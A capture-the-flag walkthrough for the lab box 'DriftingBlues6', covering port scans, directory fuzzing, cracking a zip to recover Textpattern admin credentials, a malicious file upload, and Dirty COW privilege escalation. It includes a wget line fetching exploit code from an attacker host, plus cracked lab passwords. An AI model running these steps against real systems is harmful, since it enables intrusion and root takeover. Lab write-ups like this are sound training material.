



---

title: "DriftingBlues6"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, TextPattern, Insecure File Upload, Dirty Cow]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---

The exploitation of the "DriftingBlues6" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 80. Enumeration revealed the presence of a Textpattern CMS. Through directory fuzzing and a file search, a zip file named "spammer.zip" was found. After cracking the zip password, credentials were extracted, which provided access to the Textpattern admin panel. A malicious file was then uploaded, leading to remote command execution. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty Cow exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, file uploads, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview



## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p-  192.168.169.219 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
```

## 2. Enumeration

### Port 80



Source Page

```html
<!DOCTYPE html>
<html>
<title>driftingblues</title>
<body class="gbody">
<style>
.gbody {
	background-color: #f4ecd8;
	width: 1000px;
	margin: 40px auto;
	font-family: arial;
	font-size: 20px;
	   }

.gempty1 {
	display: inline-block;
	width: 1000px;
	height: 10px;
	border-bottom: solid 1px #000000;
	}

.gempty {
	display: inline-block;
	width: 1000px;
	height: 70px;
	}
	
</style>
<span class="main1">
<h1>Drifting Blues Tech
<h2>please don't hack
<h2>enough is enough!!!
<br><br>
</span>
<span class="gempty"></span>
</body>
</html>
<!-- 
please hack vvmlist.github.io instead
he and their army always hacking us -->
```

directory fuzzing

```bash
gobuster dir -u http://192.168.169.219 -w /usr/share/wordlists/dirb/big.txt -t 40
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.169.219/textpattern/]
Progress: 20469 / 20470 (100.00%)

```

robots.txt


Discovered the Textpattern CMS


[http://192.168.169.219/textpattern/textpattern/](http://192.168.169.219/textpattern/textpattern/) //requesting username and password for the admin page


search for files with a .zip extension

```bash
feroxbuster -u http://192.168.169.219/ -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
```

```bash
200      GET      212l     1206w    97264c http://192.168.169.219/db.png
200      GET       76l       75w      750c http://192.168.169.219/index
200      GET       76l       75w      750c http://192.168.169.219/
200      GET      212l     1206w    97264c http://192.168.169.219/db
200      GET        5l       14w      110c http://192.168.169.219/robots
200      GET        2l        7w      227c http://192.168.169.219/spammer
200      GET        2l        7w      227c http://192.168.169.219/spammer.zip
```

spammer.zip


zip file requests password


Crack the hash using the John tool

```bash
zip2john spammer.zip > hash                                  
```

hash

```
spammer.zip/creds.txt:$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:creds.txt:spammer.zip::spammer.zip
```

crack

```bash
john hash 
```

> myspace4         (spammer.zip/creds.txt)
> 

Credentials


> mayer:lionheart
> 

## 3. Exploitation

Access the admin panel


### Upload file

Create the malicious file and set my IP.


[http://192.168.169.219/textpattern/textpattern/index.php?event=file](http://192.168.169.219/textpattern/textpattern/index.php?event=file)


Accessed the file at http://192.168.169.219/textpattern/files/


Initial Access


## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a
```

> Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
> 

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

```bash
wget http://192.168.45.248/40839.c
gcc -pthread 40839.c -o dirtycow -lcrypt
```


Root Access

